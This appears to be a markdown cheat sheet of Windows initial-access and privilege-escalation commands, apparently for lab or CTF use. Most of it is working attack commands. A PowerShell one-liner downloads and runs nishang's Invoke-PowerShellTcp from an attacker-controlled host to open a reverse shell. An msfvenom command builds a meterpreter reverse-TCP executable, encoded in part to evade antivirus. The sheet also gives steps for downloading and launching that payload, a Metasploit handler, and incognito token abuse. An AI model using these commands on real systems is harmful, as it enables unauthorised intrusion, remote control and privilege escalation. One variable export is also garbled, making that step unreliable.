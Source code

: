 # Command for Initial Access and PrivEsc

* Get a reverseShell on the target system using *Invoke-PowerShellTcp.ps1* script from _nishang_:

```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://<your-ip>:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <your-ip> -Port <your-port>
```

* Generate reverse_tcp payload with __msfvenom__:

```bash
export lhost=<your-ip>
export lhost=<your-port>
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$lhost LPORT=$lport -f exe -o shell.exe
```

	* This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

* After creating this payload, download it to the machine :

> Don't forget to run a local server using python3: `python3 -m http.server`

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"
```

* Before running the payload, we make sure that we set up a handler in metasploit:

```bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT listening-port
run
```

* start the reverse shell

```bash
Start-Process "shell.exe"
# Or
.\shell.exe
```

* View all the privileges using :

```bash
whoami /priv
```

* You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. 
* To load the incognito module in metasploit, Enter: 

```bash
load incognito 
```

* To check which tokens are available, Enter:

```bash
list_tokens -g
```

